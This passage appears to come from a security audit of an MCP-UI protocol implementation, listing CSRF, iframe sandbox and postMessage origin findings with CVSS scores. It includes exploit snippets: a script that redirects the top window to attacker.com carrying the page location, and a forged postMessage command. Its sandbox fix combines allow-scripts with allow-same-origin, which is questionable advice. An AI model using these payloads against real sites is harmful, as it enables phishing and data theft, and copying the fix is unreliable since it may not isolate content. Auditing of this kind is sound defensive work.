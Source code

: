 #### VULN-API-005: Missing CSRF Protection
- **CVSS v3.1:** 6.5 (AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N)
- **Details:** No CSRF tokens implemented
- **Exploitation:** State-changing operations vulnerable to CSRF

## 3. MCP-UI Protocol Security

### 3.1 Iframe Security Issues

#### VULN-UI-001: Iframe Sandbox Bypass
- **CVSS v3.1:** 8.3 (AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:N)
- **Details:** No sandbox attributes on iframes
- **Exploitation:**
```html
<!-- Malicious iframe content -->
<script>
// Break out of iframe
if (top !== self) {
    top.location = 'http://attacker.com/phishing?origin=' + document.location;
}
</script>
```
- **Fix Required:**
```html
<iframe 
    src="ui://component"
    sandbox="allow-scripts allow-same-origin"
    csp="script-src 'self'; object-src 'none'">
</iframe>
```

#### VULN-UI-002: PostMessage Origin Bypass
- **CVSS v3.1:** 7.4 (AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:N/A:N)
- **Vulnerable Pattern:**
```javascript
// Current vulnerable implementation
window.addEventListener('message', (e) => {
    // No origin check!
    processMessage(e.data);
});
```
- **Exploitation:**
```javascript
// Attacker's malicious page
targetWindow.postMessage({
    action: 'execute',
    command: 'malicious-payload'
}, '*');
```

### 3.2 UI Protocol Vulnerabilities

